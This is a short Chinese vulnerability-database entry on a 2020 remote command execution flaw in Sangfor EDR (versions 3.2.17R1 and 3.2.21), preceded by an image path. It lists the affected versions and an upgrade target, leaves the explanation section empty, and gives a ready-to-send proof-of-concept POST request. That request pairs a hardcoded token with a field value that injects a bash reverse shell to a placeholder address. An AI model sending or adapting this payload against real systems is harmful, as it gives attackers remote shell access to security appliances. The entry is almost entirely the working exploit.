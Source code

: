 ```yaml
---
title: '深信服EDR 远程命令执行-2020-hvv2'
date: Sat, 12 Sep 2020 02:19:51 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


#### 影响范围

受影响版本为3.2.17R1, 3.2.21两个版本，如果为这两个版本建议升级版本至 3.2.21.375

#### 漏洞原理

 

 POC

```html
POST /api/edr/sangforinter/v2/cssp/slog_client?token=eyJtZDUiOnRydWV9 HTTP/1.1
Host: xx.x.x.x
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.22.0
Content-Length: 77

{"params": "w=123\"'1234123'\"|bash -i >& /dev/tcp/ip/port 0>&1"} 
```

